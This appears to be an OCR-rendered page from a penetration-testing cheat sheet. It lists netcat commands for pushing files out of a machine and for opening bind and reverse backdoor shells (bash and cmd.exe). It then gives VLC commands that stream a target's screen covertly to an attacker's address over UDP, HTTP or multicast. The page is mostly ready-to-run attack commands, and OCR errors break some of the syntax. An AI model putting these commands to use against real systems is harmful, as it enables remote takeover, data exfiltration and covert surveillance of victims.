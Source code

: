 `# Sending a file nc.exe 10.10.10.10 < "file.log"  # Receiving a file nc -vnlp 1234 > file.txt`



`# Grab a [filename] from a Listener: # 1. Start Listener to push [filename] $ nc -l -p [port] > [filename] # 2. Connect to [TargetIP] and Retrieve [filename] $ nc -w3 [TargetIP] [port] < [filename]  # Push a [filename] to Listener: # 1. Start Listener to pull [filename] $ nc -l -p [port] > [filename] # 2. Connect to [TargetIP] and push [filename] $ nc -w3 [TargetIP] [port] < [filename]`

### Backdoor Shells



`# Linux Shell: $ nc -l -p [port] -e /bin/bash  # Linux Reverse Shell: $ nc [LocalIP] [port] -e /bin/bash  # Windows Shell: $ nc -l -p [port] -e cmd.exe  # Windows Reverse Shell: $ nc [LocalIP] [port] -e cmd.exe`

## Using VLC for Streaming



`# Use cvlc (command line VLC) on target to migrate popups`

### Save and Stream Screen via UDP to Attacker's Address and Port 1234



`# Start a listener on the attacker machine vlc udp://@:1234  -- OR -  # Start a listener that stores the stream in a file. vlc udp://@:1234 :sout=#transcode{vcodec=h264,vb=0,scale=0,acodec=mp4a, ab=128,channels=2,samplerate=44100}:file{dst=test.mp4) :no-sout-rtp-sap :no-sout-standard-sap :ttl=1 :sout-keep  # This may make the user's screen flash. Lower frame rates delay the video. vlc screen:// :screen-fps=25 :screen-caching=100 :sout=#transcode{vcodec=h264,vb=0,scale=0,acodec=mp4a,ab=128,channels=2,sam plerate=44100}:udp{dst=attackerip:1234) :no-sout-rtp-sap :no-sout-standard- sap :ttl=1 :sout-keep`

### Save and Stream Screen via HTTP Protocol



`# Start a listener on the attacker machine vlc http://server.example.org:8080  -- OR -  # Start a listener that stores the stream to a file vlc http://server.example.org:8080 :sout=# transcode{vcodec=h264,vb=0,scale=0,acodec=mp4a,ab=128,channels=2,samp lerate=44100}:file{dst=test.mp4)  # Start streaming on the target machine vlc screen:// :screen-fps=25 :screen-caching=100 :sout=#transcode{vcodec=h264,vb=0,scale=0,acodec=mp4a,ab=128,channels=2,sam plerate=44100}:http{mux=ffmpeg{mux=flv),dst=:8080/) :no-sout-rtp-sap :nosout- standard-sap :ttl=1 :sout-keep`

### Save and Broadcast Screen via Multicast



`# Start a listener on the attacker machine for multicast vlc udp://@multicastaddr:1234  # Broadcast stream to a multicast address vlc screen:// :screen-fps=25 :screen-caching=100 :sout=#transcode{vcodec=h264,vb=0,scale=0,acodec=mp4a,ab=128,channels=2,sam plerate=44100}:udp{dst=multicastaddr:1234) :no-sout-rtp-sap :no-soutstandard- sap :ttl=1 :sout-keep`

### Save and Record Screen into a File

